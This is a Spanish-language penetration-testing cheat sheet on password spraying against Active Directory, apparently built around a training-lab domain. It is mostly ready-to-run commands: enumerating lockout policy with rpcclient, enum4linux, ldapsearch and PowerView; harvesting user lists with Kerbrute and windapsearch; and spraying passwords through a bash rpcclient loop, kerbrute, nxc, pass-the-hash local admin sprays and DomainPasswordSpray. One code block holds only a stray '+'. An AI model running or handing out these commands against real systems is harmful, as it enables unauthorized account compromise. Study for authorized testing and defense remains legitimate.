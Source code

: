 #passwordSpraying
## Linux
### Enumerar política de contraseñas

- **`nxc` (SMB - 445):**
	```bash
	# Requiere credenciales
	nxc smb $target -u $username -p $password --pass-pol
	```

- **`rpcclient` (SMB - 445, 139):**
	```bash
	rpcclient -U 'username%password' $target
	# o null session
	rpcclient -U "" -N $target
	# Una vez dentro, podemos obtener informacíon básica del dominio con
	rpcclient $> querydominfo
	# Obtener política de contraseñas
	rpcclient $> getdompwinfo
	```

- `enum4linux` (SMB - 445, 139):
	```bash
	+
	```
	`-P` : password police
- **enum4linux-ng (SMB - 445, 139):**
	```bash
	# Con credenciales
	enum4linux-ng -P $target -u $username -p $password -oA ilfreight
	# Null session
	enum4linux-ng -P $target -oA ilfreight
	```

- **ldapsearch (LDAP - 389, 636):**
	```bash
	# Con credenciales
	ldapsearch -h $target -D "CN=username,DC=INLANEFREIGHT,DC=LOCAL" -w 'password' -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
	# Anonymous bind
	ldapsearch -h $target -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
	```

### Crear User List

- **`enum4linux` (SMB - 445, 139):**
	```bash
	# Sin credenciales
	enum4linux -U $target | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
	# Con credenciales
	enum4linux -U -u <user> -p <pass> $target | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
	```

- **`rpcclient`:**
	```bash
	# sin credenciales
	rpcclient -U "" -N 172.16.5.5
	# Con credenciales
	rpcclient -U "username" 172.16.5.5
	# Una vez en sesión
	rpcclient $> enumdomusers
	```

- **`nxc` SMB ( `--users`):**
	```bash
	nxc smb $target -u <username> -p <password> --users
	```
	La flag `--users` nos indica el número de intentos fallidos y fecha de último intento fallido
- **`ldapsearch` ( Anonymous Bind):**
	```bash
	ldapsearch -h $target -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
	```

- **`windapsearch`:**
	```bash
	./windapsearch.py --dc-ip $target -u "" -U
	```

- **`Kerbrute`:**
	```bash
	kerbrute userenum -d inlanefreight.local --dc $target /opt/jsmith.txt
	# otra lista interesante: /usr/share/wordlists/dirb/others/names.txt
	```

### Ejecutar Password Spraying
- **One-liner bash (SMB - 445, 139):**
	```bash
	for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" $target | grep Authority; done
	```

- **Kerbrute (Kerberos - 88):**
	```bash
	kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
	```

- **nxc (SMB):**
	```bash
	sudo nxc smb $target -u valid_users.txt -p Password123 --continue-on-success | grep +
	# Valorar añadir --local-auth
	```

- **Local Admin Spraying:**
	```bash
	sudo nxc smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
	```
	
## Windows
### Enumerar política de contraseñas
- **Null Sessions (net use - 445, 139):**
	El siguiente comando muestra si acepta null sessions
	```
	net use \\DC01\ipc$ "" /u:""
	```
- **net.exe:**
	```powershell
	net accounts
	```
	Si  obtenemos el siguiente valor `Lockout threshold: Never` significa que podemos ejecutar fuerza bruta sin problema. 

- **Powerview:**
	```powershell
	import-module .\PowerView.ps1
	Get-DomainPolicy
	```

### Ejecutar Password Spraying
- Spray-Passwords.ps1
	```powershell
	# Ejecuta password spraying contra todas las cuentas del dominio
	.\Spray-Passwords.ps1 -Pass Nexus123!
	# Ejecuta password spraying contra todas las cuentas con permisos administrativos
	.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
	```
- **DomainPasswordSpray (Windows AD):**
	```powershell
	Import-Module .\DomainPasswordSpray.ps1
	Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
	```

